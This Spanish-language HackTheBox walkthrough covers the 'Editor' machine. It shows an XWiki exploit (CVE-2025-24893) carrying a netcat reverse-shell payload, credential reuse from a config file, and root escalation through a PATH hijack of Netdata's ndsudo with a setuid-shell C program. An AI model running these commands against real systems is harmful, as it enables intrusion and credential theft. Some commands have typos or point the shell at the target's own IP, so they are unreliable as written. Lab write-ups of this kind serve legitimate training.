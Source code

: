# Editor

**Platform:** HackTheBox  
**Difficulty:** Easy  
**IP:** 10.10.11.80

---

## 1. Información Inicial
- **Objetivo:** Obtener las dos banderas, una disponible desde un usuario y otra desde root  
- **Herramientas iniciales:** `nmap`, `GitHub`, `wget`, `netcat`, `python3`, `find`, `ssh`, `gcc`, `PATH`.

---

## 2. Reconocimiento y enumeración

Primero realizamos un escaneo básico con `nmap` para identificar los servicios y puertos abiertos:
```bash 
nmap -sC -sV -p- --min-rate 2000 -T4 10.10.11.80
```

![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

Al entrar en el sitio web, la url nos dirige a editor.htb, por lo que lo añadiremos al fichero /etc/hosts

![Fichero /etc/hosts con host asignado a la IP](screenshots/2.etc-hosts.png)

Seguimos inspeccionando el sitio web en busca de alguna vulnerabilidad, y tan solo seleccionando en Docs, observamos que hay un servicio xwiki que quiere abrirse, pero para el cuál debemos de añadir también su dirección en el fichero /etc/hosts.

![Vista del sitio web principal](screenshots/3.web_view.png)

![Intento de entrada fallido al sitio web del servicio xwiki antes de ser añadido a /etc/hosts](screenshots/4.xwiki_selecting_docs.png)

Cuando conseguimos entrar, no tenemos gran cosa pero apreciamos en la parte inferior la versión del servicio: `XWiki Debian 15.10.8`

![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/5.xwiki_version.png)

Buscando en internet sobre esa versión, no tardamos en localizar un CVE que nos permita explotar la vulnerabilidad:
`CVE-2025-24893`

![Página de GitHub oficial del CVE](screenshots/6.cve_found.png)

Tras analizar el código del exploit, podemos ejecutarlo según indica en su página oficial generando una conexión de netcat, por lo que debemos de tener en nuestra máquina una terminal con netcat escuchando en el puerto 9001.

```bash
nv -lvnp 9001
```

```bash
python3 CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc 10.10.11.80 9001 -e /bin/bash'
```

![Ejecución de exploit para el aprovechamiento de la vulnerabilidad descubierta](screenshots/8.executinf_cve.png)

En la terminal donde estábamos escuchando con netcat, recibimos una shell como el usuario `xwiki`. Tras listar varios directorios y realizar bastantes pruebas, tan solo hemos descubierto que hay otro usuario llamado `oliver` que si que tiene directorio personal, por lo que dentro estará la bandera de usuario.

![Estableciendo conexión en netcat tras la ejecución del exploit](screenshots/9.reverse_shell.png)

Comenzamos a buscar por internet a cerca del servicio XWiki pero no tenemos resultados hasta que encontramos un artículo que explica cómo configurar bases de datos MySQL. En el se muestra como hay credenciales en estos, por lo que probamos a acceder al archivo `WEB-INF/hibernate.cfg.xml` dentro del directorio de xwiki.

![Artículo sobre fichero que puede contener contraseñas dentro del servicio XWiki](screenshots/10.xwiki-documentation.png)

Efectivamente, hallamos una contraseña para el usuario xwiki pero no tenemos dónde iniciar sesión, por lo que tratamos de iniciar sesión con el usuario oliver y esa contraseña.

```bash
cat /etc/xwiki/hibernate.cfg.xml
```

![Fichero de configuración de base de datos para XWiki donde hayamos una contraseña](screenshots/11.xwiki_password.png)

La contraseña resulta ser útil con ese usuario y nos da acceso por ssh a la máquina víctima.

Desde este usuario sí que podemos visualizar la primera bandera del usuario (user.txt) en su directorio personal.

```bash
ssh oliver@10.10.11.80
```

![Conexión establecida por SSH como usuario oliver en la máquina víctima](screenshots/12.user.txt.png)

Es hora de la escala de privilegios, para lo que buscaremos como siempre ficheros con permisos SUID.

Entre la lista de ficheros, destacan algunos plugins de Netdata. Cuando buscas a cerca de ellos, aparece el fichero ndsudo en concreto, con un CVE conocido como:
`CVE-2024–32019`.

```bash
find / -perm -4000 -type f 2>/dev/null 
```

![Búsqueda de ficheros SUID desde el usuario oliver en la máqunia víctima](screenshots/13.find_perm.png)

Este CVE nos permite ejecutar un fichero compilado en C con el contenido que nosotros queramos modificando el PATH para que el sistema piense que es el original.
Podemos ver la explicación en la siguiente página:

![Página de ayuda para CVE](screenshots/14.CVE-2024-32019.png)

Creamos un script sencillo que nos abra una bash como root, lo compilamos con gcc y abrimos un servidor Python para compartirlo y poder descargarlo desde la máquina local.

```bash
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```


```bash
gcc fichero.c -o nvme
python3 -m http.server
```

![Preparación para explotación de CVE](screenshots/15.c_exploit_gcc.png)

Por último, desde la máquina víctima solo hay que descargarse el fichero en /tmp, darle permisos de ejecución, modificar el PATH por /tmp para que al buscar el fichero nvme encuentre primero el modificado que el original y luego ejecutar algún comando que use ese fichero.

```bash
cd /tmp
wget http://10.10.11.80:8000/nvme
chmod +x nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

![Explotación de CVE y obtención de acceso como root al sistema](screenshots/16.png)

Ya tenemos acceso al usuario root para poder obtener la segunda bandera en la ruta /root/root.txt.